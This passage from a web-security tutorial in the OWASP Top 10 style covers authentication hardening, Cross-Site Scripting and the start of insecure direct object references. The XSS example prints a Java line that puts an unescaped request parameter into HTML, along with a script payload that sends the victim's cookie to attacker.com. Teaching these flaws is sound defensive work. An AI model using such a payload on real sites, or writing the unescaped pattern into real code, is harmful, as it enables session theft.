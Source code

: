 **Preventive Measures **
1. Implement a single set of strong authentication and session management controls. 
2. Avoid [Cross-Site Scripting (XSS)](https://en.wikipedia.org/wiki/Cross-site_scripting) flaws which can be used to steal session IDs.
3. Implement proper application session timeout protocol.
4. Consider the [ESAPI Authenticator and User APIs](http://owasp-esapi-java.googlecode.com/svn/trunk_doc/latest/org/owasp/esapi/Authenticator.html) as good examples.


### **3. Cross-Site Scripting (XSS)**

![description](https://raw.githubusercontent.com/pluralsight/guides/master/images/cf94e0ae-5a50-4830-9d44-66ffe0cdcfff.png)


As mentioned in the session management and authentication section, XSS flaws can take down a web application. These occur whenever an application takes untrusted data and sends it to a web browser without proper validation or escaping. XSS allows attackers to execute scripts in the victim’s browser which can hi-jack user sessions, deface web sites, or redirect the user to malicious sites.


Exploitability | Prevalence | Detectability | Impact
------------------- | -------------------- | ------------
AVERAGE | VERY WIDESPREAD   | EASY | MODERATE

**Example scenario** : The application uses untrusted data and uses the following HTML snippet without validation or escaping:
```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```
The attacker modifies the 'CC' parameter in their browser to:
```
'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.
```
This one-line modification causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.


**Preventive Measures **

1. Escape all untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL).
2. Whitelist server-side input validation.
3. Consider Content Security Policy [CSP](https://www.owasp.org/index.php/Content_Security_Policy) to defend against XSS across your entire site.

### **4. Insecure Direct Object References**


![description](https://raw.githubusercontent.com/pluralsight/guides/master/images/5ab3d4f6-1604-4bde-b03f-eed5e2ca1ecd.png)

A direct object reference occurs when a developer exposes a reference to an internal implementation object, such as a file, directory, or database key. 

Without an access control check or other protection, attackers can manipulate these references to access unauthorized data.

